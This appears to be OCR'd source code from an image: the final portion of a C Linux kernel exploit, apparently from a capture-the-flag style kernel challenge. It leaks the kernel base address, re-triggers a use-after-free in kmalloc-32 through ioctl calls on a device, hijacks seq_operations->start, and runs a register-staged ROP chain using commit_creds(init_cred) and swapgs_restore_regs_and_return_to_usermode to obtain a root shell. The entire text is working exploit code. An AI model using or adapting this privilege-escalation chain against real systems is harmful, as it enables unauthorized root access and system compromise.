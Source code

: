 ```c
                if ((buf[i] >= 0xffffffff81000000)  && ((buf[i] & 0xfff) == 0x030))
                {
                    kernel_base = buf[i] -  0x030;
                    kernel_offset = kernel_base - 0xffffffff81000000;
                    printf("\033[32m\033[1m[+] Found kernel base: \033[0m%p\033[32m\033[1m at \033[0m%p\n", kernel_base, search_addr);
                    printf("\033[32m\033[1m[+] Kernel offset: \033[0m%p\n", kernel_offset);
                    break;
                }
            }

            write(pipe_fd[1], &kernel_base, 8);
            exit(0);
        }
        wait(NULL);
        read(pipe_fd[0], &kernel_base, 8);
        if (kernel_base)
            break;
        search_addr += 0x8000;
    }
    kernel_offset = kernel_base - 0xffffffff81000000;

    // re-get a UAF in kmalloc-32
    syscall(SYS_modify_ldt, 1, &desc, sizeof(desc)); // do not let the former one make extra influences
    ioctl(fd[1], 0x10001, 32);
    close(fd[2]);

    // trigger seq_operations->start
    puts("\033[34m\033[1m[*] Triggering seq_operations->stat...\033[0m");
    seq_fd = open("/proc/self/stat", O_RDONLY);

    size_t target_addr = 0xffffffff81079210 + kernel_offset;   //add rsp, 0x100; pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15

    pop_rdi_ret = POP_RDI_RET + kernel_offset;
    init_cred = INIT_CRED + kernel_offset;
    commit_creds = COMMIT_CREDS + kernel_offset;
    swapgs_restore_regs_and_return_to_usermode = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 14 + kernel_offset;
    add_rsp_0x40_ret = 0xffffffff810996a6 + kernel_offset;

    write(fd[1], &target_addr, 8);
    __asm__(
        "mov r15,   0xbeefdead;"
        "mov r14,   0x11111111;"
        "mov r13,   add_rsp_0x40_ret;"
        "mov r12,   commit_creds;"
        "mov rbp,   init_cred;"
        "mov rbx,   pop_rdi_ret;"
        "mov r11,   0x66666666;"
        "mov r10,   swapgs_restore_regs_and_return_to_usermode;"
        "mov r9,    0x88888888;"
        "mov r8,    0x99999999;"
        "xor rax,   rax;"
        "mov rcx,   0xaaaaaaaa;"
        "mov rdx,   8;"
        "mov rsi,   rsp;"
        "mov rdi,   seq_fd;"
        "syscall"
    );
    getRootShell();
}
```